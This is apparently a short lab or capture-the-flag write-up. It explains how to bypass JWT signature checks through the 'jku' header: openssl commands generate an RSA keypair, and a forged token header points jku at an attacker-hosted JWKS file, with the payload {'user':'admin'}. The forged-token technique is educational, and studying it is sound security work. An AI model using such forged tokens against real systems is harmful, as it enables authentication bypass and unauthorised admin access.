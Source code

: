 There is a way to bypass token verification from jku header: https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens#jku

For the, we need to create a public-private key and a jwks file hosted on our server.

First you need to create a new certificate with new private & public keys -
```bash
openssl genrsa -out keypair.pem 2048
openssl rsa -in keypair.pem -pubout -out publickey.crt
openssl pkcs8 -topk8 -inform PEM -outform PEM -nocrypt -in keypair.pem -out pkcs8.key
```

Then to create the new JWT with the created `publickey.crt`(public) and `pkcs8.key`(private) keys and pointing the parameter jku to the certificate created.

**HEADER**
```json
{"typ":"JWT","alg":"RS256","jku":"http://attacker.server/jwks.json"}
```

**PAYLOAD**
```json
{"user":"admin"}
```

![](screenshots/generate-token.png)
